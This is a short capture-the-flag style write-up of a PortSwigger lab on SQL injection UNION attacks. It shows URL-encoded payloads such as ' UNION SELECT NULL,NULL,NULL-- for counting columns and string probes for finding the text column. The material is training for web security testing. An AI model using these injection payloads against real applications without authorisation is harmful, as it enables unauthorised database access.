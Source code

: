 # Write-up: SQL injection UNION attack, finding a column containing text
Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Solution

To find the number of columns returned by the query, we can use the `UNION` method. We will start with `UNION SELECT NULL` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we doesn't get error at `UNION SELECT NULL, NULL, NULL`, which means the number of columns is 3.

The link is `/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

sqli payload is
```sql
' UNION SELECT NULL, NULL, NULL--
```

Now, we need to find which column returns string. We will replace the NULLs with given string and check which column returns the string. We can use the following link to find the column.
`Lifestyle'+UNION+SELECT+'yhFRqa',NULL,NULL--`, this gives error. So, the first column doesn't return string.
`Lifestyle'+UNION+SELECT+NULL,'yhFRqa',NULL--`, this responds successfully. So, the second column return string.

Hence, the lab is sovled.

![alt text](img/2.png)